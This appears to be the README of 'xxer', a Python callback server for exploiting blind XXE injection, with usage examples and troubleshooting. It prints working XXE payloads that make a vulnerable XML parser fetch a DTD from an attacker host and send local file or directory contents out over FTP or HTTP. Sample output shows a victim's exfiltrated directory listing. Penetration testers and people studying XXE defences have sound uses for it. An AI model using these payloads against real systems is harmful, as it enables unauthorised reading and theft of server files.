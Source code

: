 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

Basically, this doesn't actually find XXE injection for you, it helps you deal with getting useful information back once you've found a vulnerable input. For actually finding vulnerable injection points, I recommend using a small HTTP payload and some sort of DNS callback service like [Burp Collaborator](https://portswigger.net/burp/help/collaborator.html). If Collaborator reports a DNS lookup, followed by an HTTP request, then you're good to go.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server
  -d DTD_FILE, --dtd DTD_FILE
                        The DTD file used for the XXE attack

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?

## Troubleshooting
  * I don't get a callback over HTTP to retrieve ``ext.dtd``.
    * This could mean a number of things, mostly related to not being vulnerable to XXE:
      * External entities may be disallowed. This can be done by rejecting DOCTYPE decclarations in documents, which I believe prevents XXE injection.
      * It may also allow entities, but disallow entities from remote sources. I've seen this on some Python XML libraries.
      * Outbound traffic could be blocked at a firewall, or requests mat only go to whitelisted hosts.
    * There could also be a typo in the payload or a bug. Check the generated ``ext.dtd`` file to make sure everything looks correct. 
    * If you get some sort of parsing error, make sure you apply URL encoding (or remove it, I dunno) to the payload. Basically make sure you have the "correct" amount of encoding.
  * The initial HTTP callback for ext.dtd works, but after that I see nothing.
    * This could mean that FTP as a protocol is disabled server-side. Try changing the FTP callback in ``ext.dtd`` to an HTTP one, like ``<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'http://HOSTNAME:8080/b'>">``. If you get a callback to the /b document, this is probably the case. Try using the gopher protocol as well, but this was removed in Java 1.6.32 (or something close).
